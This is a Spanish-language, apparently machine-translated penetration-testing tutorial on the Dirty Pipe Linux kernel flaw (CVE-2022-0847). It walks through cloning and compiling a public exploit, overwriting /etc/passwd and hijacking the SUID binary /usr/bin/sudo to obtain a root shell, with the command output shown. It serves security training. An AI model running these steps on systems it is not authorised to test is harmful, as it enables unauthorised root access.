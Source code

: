 # Pipa sucia

---

Una vulnerabilidad en el núcleo de Linux, llamado[Pipa sucia](https://dirtypipe.cm4all.com/) ([CVE-2022-0847](https://cve.mitre.org/cgi-bin/cvename.cgi?name=CVE-2022-0847)), permite la escritura no autorizada a los archivos de usuario root en Linux. Técnicamente, la vulnerabilidad es similar a la[Vaca sucia](https://dirtycow.ninja/)Vulnerabilidad descubierta en 2016. Todos los núcleos de la versión`5.8`a`5.17`son afectados y vulnerables a esta vulnerabilidad.

En términos simples, esta vulnerabilidad permite que un usuario escriba a archivos arbitrarios siempre que tenga acceso de lectura a estos archivos. También es interesante observar que los teléfonos Android también se ven afectados. Las aplicaciones de Android se ejecutan con los derechos de usuario, por lo que una aplicación maliciosa o comprometida podría hacerse cargo del teléfono.

Esta vulnerabilidad se basa en tuberías. Las tuberías son un mecanismo de comunicación unidireccional entre procesos que son particularmente populares en los sistemas UNIX. Por ejemplo, podríamos editar el`/etc/passwd`Archivo y elimine la solicitud de contraseña para la raíz. Esto nos permitiría iniciar sesión con el`su`Comando sin la solicitud de contraseña.

Para explotar esta vulnerabilidad, necesitamos descargar un[POC](https://github.com/AlexisAhmed/CVE-2022-0847-DirtyPipe-Exploits)y compilarlo en el sistema de destino en sí o una copia que hemos hecho.

#### Descargar Dirty Pipe Exploit

  Pipa sucia

```shell-session
cry0l1t3@nix02:~$ git clone https://github.com/AlexisAhmed/CVE-2022-0847-DirtyPipe-Exploits.git
cry0l1t3@nix02:~$ cd CVE-2022-0847-DirtyPipe-Exploits
cry0l1t3@nix02:~$ bash compile.sh
```

Después de compilar el código, tenemos dos exploits diferentes disponibles. La primera versión de exploit (`exploit-1`) modifica el`/etc/passwd`y nos da un aviso con privilegios de raíz. Para esto, necesitamos verificar la versión del núcleo y luego ejecutar el exploit.

#### Verificar la versión del kernel

  Pipa sucia

```shell-session
cry0l1t3@nix02:~$ uname -r

5.13.0-46-generic
```

#### Explotación

  Pipa sucia

```shell-session
cry0l1t3@nix02:~$ ./exploit-1

Backing up /etc/passwd to /tmp/passwd.bak ...
Setting root password to "piped"...
Password: Restoring /etc/passwd from /tmp/passwd.bak...
Done! Popping shell... (run commands now)

id

uid=0(root) gid=0(root) groups=0(root)
```

Con la ayuda de la segunda versión de exploit (`exploit-2`), podemos ejecutar binarios Suid con privilegios de raíz. Sin embargo, antes de que podamos hacer eso, primero necesitamos encontrar estos binarios suidos. Para esto, podemos usar el siguiente comando:

#### Encuentra binarios suidos

  Pipa sucia

```shell-session
cry0l1t3@nix02:~$ find / -perm -4000 2>/dev/null

/usr/lib/dbus-1.0/dbus-daemon-launch-helper
/usr/lib/openssh/ssh-keysign
/usr/lib/snapd/snap-confine
/usr/lib/policykit-1/polkit-agent-helper-1
/usr/lib/eject/dmcrypt-get-device
/usr/lib/xorg/Xorg.wrap
/usr/sbin/pppd
/usr/bin/chfn
/usr/bin/su
/usr/bin/chsh
/usr/bin/umount
/usr/bin/passwd
/usr/bin/fusermount
/usr/bin/sudo
/usr/bin/vmware-user-suid-wrapper
/usr/bin/gpasswd
/usr/bin/mount
/usr/bin/pkexec
/usr/bin/newgrp
```

Luego podemos elegir un binario y especificar la ruta completa del binario como argumento para el exploit y ejecutarlo.

#### Explotación

  Pipa sucia

```shell-session
cry0l1t3@nix02:~$ ./exploit-2 /usr/bin/sudo

[+] hijacking suid binary..
[+] dropping suid shell..
[+] restoring suid binary..
[+] popping root shell.. (dont forget to clean up /tmp/sh ;))

# id

uid=0(root) gid=0(root) groups=0(root),4(adm),24(cdrom),27(sudo),30(dip),46(plugdev),120(lpadmin),131(lxd),132(sambashare),1000(cry0l1t3)
```

